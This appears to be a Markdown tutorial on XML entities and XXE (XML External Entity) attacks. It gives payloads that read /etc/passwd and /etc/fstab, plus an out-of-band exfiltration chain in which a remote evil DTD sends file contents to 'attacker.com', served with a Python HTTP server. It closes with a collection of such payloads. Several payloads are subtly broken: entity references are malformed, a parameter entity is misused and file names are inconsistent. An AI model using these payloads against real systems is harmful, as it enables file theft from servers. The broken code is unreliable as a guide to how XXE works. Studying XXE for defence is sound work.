 
**XML** or **eXtensible Markup Language** as the HTML also are a **Markup Language** that can be used to fetch data from an API, Config files, UI Layouts & Styles, RSS feeds and much more applications, see the follow example of a common XML file.

```xml
<?xml version="1.0"?>
<Person>
    <Name>Luiz</Name>
    <Age>25</Age>
</Person>
```

A concept that the XML utilize is the **Entities** that look like variables but was defined on XML and as the variables can store data, to define an entity we need use a DTD (Document Type Definition), and inside of them define an entity that is capable to storage data from a sensitive file for example, we have three main kind of entities.

- **General:** That can be and stores a simple value, like the example.
```xml
<?xml version="1.0"?>

<!DOCTYPE Person [           |
	<!ENTITY name "Sera">    | - DTD Definition with an entity in.
]>                           |

<Person>
    <Name>&name;</Name>
</Person>

```

-  **Parameter:** Only can be defined inside a DTD, and how you could see that's an entity inside of another.

```xml
<!DOCTYPE EntityDefine [
	<!ENTITY % another "<!ENTITY inner 'Leon'>">
	%another
]>

<Person>
    <Name>
        &inner;
    </Name>
</Person>
```

- **Predefined:** Simple entities defined to take a way to use a illegal resource for example without break the application.

```xml
<Hello>H&#x3C;llo</Hello> -> Doesn't Break
<Hello>H<llo</Hello> -> Breaks the Interpreter
```

---

Now about the **XXE** or **XML External Entity** it abuses of the possibility of an Entity also could read both from a local file on the machine or a remote file via URL, this can leads since the read the **/etc/passwd** through causes some XSS remotely or lead other kind of vulnerabilities.

About to read from a local file, we can use the keyword **SYSTEM** in an entity definition, follow the example:

```xml
<?xml version="1.0"?>

<!DOCTYPE XXE [
	<!ENTITY dataFromFile SYSTEM "/etc/passwd">
]>

<pwn>&dataFromFile;</pwn>
```

Now using the Entity to make a web request and catch the data from a.txt file on a web server.

```xml
<?xml version="1.0"?>

<!DOCTYPE XXE [
	<!ENTITY dataFromWeb SYSTEM "http://local.com/salve.txt">
]>

<pwn>&dataFromWeb;</pwn>
```

Resuming... all data from now.

```xml
<?xml version="1.0"?>

<!DOCTYPE XXE1 [
	<!ENTITY dataFromFile SYSTEM "localFile.txt">
	<!ENTITY dataFromWeb SYSTEM "http://local.com/salve.txt">
]>

<showFile>dataFromFile;</showFile>
<showWeb>dataFromWeb;</showWeb>

```

---

SYSTEM keyword understood... we also could define an Entity inside an entity, but here we have a little specification about the XML, we simply can define a DTD and reuse them in the same XML file, so to "Bypass" that we need to create a **evil.xml** and remotely pull that from our malicious web server and call the evil entity inside them.

1. Make a web request with an XML that make other web request to our malicious web server with **evil.dtd** file and follow call them

```xml
<!--Example of a payload to make the ITEM 1-->

<?xml version="1.0"?>
<!DOCTYPE data SYSTEM "http://attacker.com/evil.xml">

<data>&send;</data>
```

2. On our **evil.xml** you can put the follow payload

```xml
<!-- evil.xml file -->
<?xml version="1.0"?>
<!DOCTYPE NameDTD[
    <!ENTITY % pass SYSTEM "file:///etc/passwd">
    <!ENTITY % wrap SYSTEM "<!ENTITY send SYSTEM 'http://attacker.com/?%pass'>">
    %wrap
]>
```

3. After all this you can start your evil web server with ```python3 -m http.server 80``` and send the **item 1** to pull our **evil.xml** and finally pull the */etc/passwd*.
---
#### Some nice payloads for evil.xml
```xml
<?xml version="1.0"?>
<!DOCTYPE XXE2 [
    <!ENTITY % dataFromEntity "<!ENTITY dataFromFile SYSTEM 'system.txt'>">
    %dataFromEntity;
]>

<showData>&dataFromFile;</showData>

------------------------------------------------------------------------
<?xml version="1.0"?>
<!DOCTYPE Pwn[
	<!ENTITY % passwd SYSTEM 'file:///etc/passwd'>
	<!ENTITY % wrapper "<!ENTITY send SYSTEM 'http://attacker.com/?%passwd'>">
	%wrapper;

]>

<sendRequest>&send;</sendRequest>
```

Have some contexts that we simply couldn't read the data because the interpreter will break, the reason about that is the data from file extracted... it could contain "<>" that can lead a break interpreting and consequently break the request, to fix/bypass this issue we can use a reserved entity called "CDATA" on xml, CDATA means "Character Data" and simply doesn't interpret the tags, check the follow example.

```xml
<!-- <![CDATA [<text></text>]] --> <!-- Doesn't will interpret the tags -->

<?xml version='1.0'?>
<!DOCTYPE OutOfBox [
	<!ENTITY % start "<![CDATA[">
	<!ENTITY % file SYSTEM "file:///etc/fstab"> 
	<!ENTITY % end "]]>">
	
	<!ENTITY % wrapper "<!ENTITY all '&start;&file;&end;'>">
	&wrapper;
]>

<OutOfBox>&all;</OutOfBox>
```


